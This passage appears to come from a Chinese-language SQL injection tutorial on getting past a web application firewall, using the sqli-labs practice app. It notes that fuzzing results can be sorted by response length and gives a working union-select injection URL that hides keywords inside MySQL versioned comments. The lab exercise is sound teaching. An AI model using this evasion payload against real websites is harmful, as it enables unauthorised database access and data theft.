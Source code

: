 ![](./../../../images/SQLi_Bypass/%E5%BC%80%E5%A7%8B%E6%94%BB%E5%87%BB%EF%BC%8C%E6%9F%A5%E7%9C%8B%E7%BB%93%E6%9E%9C%EF%BC%8C%E6%8C%89%E9%95%BF%E5%BA%A6%E6%8E%92%E5%BA%8F.png)

> 发现大多数为 5335（与失败的结果相同），只有少量的 1005 和 1024，手动测试这几个即可

提交成功的特殊符号手动测试

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' /*!11440union*//*/!*//*!11440select*/ 1,2,3 --+
```

![](./../../../images/SQLi_Bypass/%E6%8F%90%E4%BA%A4%E6%88%90%E5%8A%9F%E7%9A%84%E7%89%B9%E6%AE%8A%E7%AC%A6%E5%8F%B7%E6%89%8B%E5%8A%A8%E6%B5%8B%E8%AF%95.png)
